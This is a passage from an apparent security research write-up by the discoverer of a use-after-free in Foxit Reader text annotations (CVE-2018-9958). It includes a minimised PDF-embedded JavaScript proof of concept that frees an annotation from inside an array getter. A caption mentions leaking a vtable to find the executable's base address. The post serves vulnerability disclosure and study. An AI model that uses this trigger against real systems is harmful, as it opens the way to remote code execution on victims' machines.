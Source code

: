 {% include image.html
            img="assets/images/leak-2.png"
            title="Leaking a text annotation vtable and calculating the base address of FoxitReader.exe"
            caption="Leaking a text annotation vtable and calculating the base address of FoxitReader.exe"
            style="width:80%;height:80%" %}

### Foxit Reader Text Annotations point Use-After-Free Remote Code Execution Vulnerability

<p class="cn" markdown="1">
This vulnerability was assigned CVE-2018-9958 and published as [ZDI-18-342](https://www.zerodayinitiative.com/advisories/ZDI-18-342/) by the [ZDI](https://www.zerodayinitiative.com/). It was discovered by yours trully.</p>

<p class="cn" markdown="1">Let's take a look at some poc code. A minimised poc can be see below that will trigger the vulnerability:</p>

```JavaScript
%PDF 
1 0 obj
<</Pages 1 0 R /OpenAction 2 0 R>> 
2 0 obj
<</S /JavaScript /JS (

// create an annotation
var a = this.addAnnot({type:"Text", page: 0, name:"uaf"});

// create an array with an element
var arr  = [1];

// make sure we can access the Document object
var that = this;

// setup the getter callback on element 0
Object.defineProperties(arr,{
    "0":{ 
        get: function () {

            // free the annotation
            that.getAnnot(0, "uaf").destroy();
            return 1; 
        }
    }
});

// trigger uaf
a.point = arr;

)>> trailer <</Root 1 0 R>>
```

<p class="cn" markdown="1">So when setting the point property of a text annotation that is created dynamically and we can trigger a JavaScript callback via a getter call on the first element in an array. In this getter, we can see that we destroy the created annotation, whilst setting a property on that annotation. This triggers the use-after-free and after running it with page heap enabled, we get the following crash:</p>


[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo